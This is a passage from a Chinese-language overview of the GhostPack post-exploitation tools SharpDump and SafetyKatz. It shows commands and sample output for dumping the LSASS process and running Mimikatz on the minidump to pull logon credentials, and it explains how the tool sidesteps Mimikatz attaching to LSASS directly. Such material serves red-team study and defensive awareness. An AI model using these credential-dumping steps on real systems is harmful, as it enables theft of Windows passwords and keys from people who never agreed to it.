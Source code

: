 转储一个特定的进程 ID的例子:

```bash
C:\Temp>SharpDump.exe 8700

[*] Dumping notepad++ (8700) to C:\WINDOWS\Temp\debug8700.out
[+] Dump successful!

[*] Compressing C:\WINDOWS\Temp\debug8700.out to C:\WINDOWS\Temp\debug8700.bin gzip file
[*] Deleting C:\WINDOWS\Temp\debug8700.out

[+] Dumping completed. Rename file to "debug8700.gz" to decompress.
```

如果转储 LSASS，则可以在转储后下载这个压缩的 minidump，并重命名为 dump&lt;PID&gt;.gz，之后在一个类似的平台上运行 Mimikatz 的 sekurlsa::minidump命令:

![&#x4F60;&#x503C;&#x5F97;&#x62E5;&#x6709;&#x7684; PowerShell &#x5185;&#x7F51;&#x6E17;&#x900F;&#x5DE5;&#x5177;&#x5305;&#x2014;&#x2014;GhostPack](https://img.4hou.com/uploads/20190810/1565408112966705.png)

## **SafetyKatz**

[SafetyKatz](https://github.com/GhostPack/SafetyKatz/) 是 SharpDump、[@gentilkiwi](https://twitter.com/gentilkiwi) 的 [Mimikatz](https://github.com/gentilkiwi/mimikatz/) 项目和[@subtee](https://twitter.com/subtee) 的[.NET PE loader](https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs) 项目的一个组合。

首先，[MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API 调用用于创建一个保存到 C:\Windows\Temp\debug.bin 的 LSASS 转储。 然后使用@subtee 的 PELoader 加载一个自定义版本的 Mimikatz，该版本对 minidump 文件运行 sekurlsa:: logonpassword 和 sekurlsa:: ekeys，在执行完成后会删除该文件。 这个操作可以使你能够从系统中提取密码，而不必传输数兆字节的 minidump 文件，但是这可以防止 Mimikatz 的特定 OpenProcess 附加到 LSASS 进程中。

```bash
C:\Temp>SafetyKatz.exe

[*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
[+] Dump successful!

[*] Executing loaded Mimikatz PE

.#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##       > http://blog.gentilkiwi.com/mimikatz
'## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
'#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

Authentication Id : 0 ; 28935082 (00000000:01b983aa)
Session           : Interactive from 0
User Name         : blahuser
Domain            : WINDOWS10
Logon Server      : WINDOWS10
Logon Time        : 7/15/2018 1:07:55 PM
SID               : S-1-5-21-1473254003-2681465353-4059813368-1002
        msv :
        [00000003]
Primary
        * Username : blahuser
        * Domain   : WINDOWS10

...(snip)...

mimikatz # deleting C:\Windows\Temp\debug.bin
```
